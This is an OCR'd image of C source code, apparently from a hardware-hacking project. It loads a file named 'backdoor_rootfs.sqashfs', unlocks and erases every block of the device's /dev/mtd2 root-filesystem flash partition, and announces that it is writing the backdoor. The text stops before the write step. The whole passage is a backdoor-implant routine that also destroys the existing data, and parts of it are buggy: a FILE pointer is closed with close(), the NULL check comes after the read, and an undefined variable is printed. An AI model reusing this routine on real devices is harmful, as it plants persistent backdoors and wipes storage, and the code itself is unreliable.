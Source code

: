 ```
    unsigned char sanity_read_buf[20] = {0x00};                // empty array for reading
    FILE    *backdoor_file;
    char    *backdoor_buffer;
    long    numbytes;
    /* open an existing file for reading */
    backdoor_file = fopen("/var/avi/mmc0/backdoor_rootfs.sqashfs", "rb");
    
    /* quit if the file does not exist */
    if((void *)backdoor_file == NULL){
        // printf("Failed to FIND /var/avi/mmc0/backdoor_rootfs.sqashfs\n");
        return 1;
    }
    /* Get the number of bytes */
    fseek(backdoor_file, 0L, SEEK_END);
    numbytes = ftell(backdoor_file);
    printf("backdoor file size: %x\n", numbytes); 
    close(backdoor_file);
    // Reopen since seeking was being dumb
    backdoor_file = fopen("/var/avi/mmc0/backdoor_rootfs.sqashfs", "rb");
    /* grab sufficient memory for the 
    backdoor_buffer to hold the text */
    backdoor_buffer = (char*)malloc(numbytes);	
    

    /* copy all the text into the backdoor_buffer */
    int bytes_read = fread(backdoor_buffer, sizeof(char), numbytes, backdoor_file);
    /* memory error */
    if(backdoor_buffer == NULL){
        printf("Failed to READ /var/avi/mmc0/backdoor_rootfs.sqashfs\n");
        return 1;
    }
    printf("Bytes read: %x, File bytes: %x\n", bytes_read, (unsigned int )*backdoor_buffer);
    int mtd2_fd = open("/dev/mtd2", O_RDWR); // open the mtd2 device for reading and 
                                        // writing. Note you want mtd2 not mtdblock2
                                        //! also you probably need to open permissions
                                        //! to the dev (sudo chmod 777 /dev/mtd0)

    ioctl(mtd2_fd, MEMGETINFO, &mtd_info);   // get the device info

    // dump it for a sanity check, should match what's in /proc/mtd
    printf("MTD Type: %x\nMTD total size: %x bytes\nMTD erase size: %x bytes\n",
         mtd_info.type, mtd_info.size, mtd_info.erasesize);


    ei.length = mtd_info.erasesize;   //set the erase block size
    for(ei.start = 0; ei.start < mtd_info.size; ei.start += ei.length)
    {
        ioctl(mtd2_fd, MEMUNLOCK, &ei);
        printf("Erasing Block %#x\n", ei.start); // show the blocks erasing
                                                  // warning, this prints a lot!
        ioctl(mtd2_fd, MEMERASE, &ei);
    }    

    lseek(mtd2_fd, 0, SEEK_SET);               // go to the first block
    read(mtd2_fd, sanity_read_buf, sizeof(sanity_read_buf)); // read 20 bytes

    // sanity check, should be all 0xFF if erase worked
    printf("Check empty: buf[%d] = 0x%02x\n", i, (unsigned int)sanity_read_buf[0]);

    close(mtd2_fd);
    // reopen since seeking was being dumb
    mtd2_fd = open("/dev/mtd2", O_RDWR); // open the mtd2 device for reading and 
    printf("Writing backdoor to rootfs(mtd2)\n");
```
